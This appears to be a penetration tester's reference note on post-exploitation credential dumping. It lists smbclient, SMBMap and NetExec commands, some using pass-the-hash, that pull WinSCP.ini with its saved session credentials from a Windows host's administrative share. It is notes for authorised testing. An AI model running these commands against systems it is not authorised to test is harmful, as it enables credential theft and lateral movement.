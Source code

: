 # Unix Shell

## SMBClient

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$

smb: \> more "/Program Files (x86)/WinSCP/WinSCP.ini"
```

## Impacket

```
$
```

## SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Program Files (x86)\WinSCP\WinSCP.ini"
```

## NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file "/Program Files (x86)/WinSCP/WinSCP.ini" WinSCP.ini

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M winscp
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - OS Credential Dumping/Windows/Host/Sensitive Files/Config Files/Network Ports/SSH/Living off the Land]]

### NetExec Wiki

- [NetExec Wiki: Dump WinSCP](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-winscp)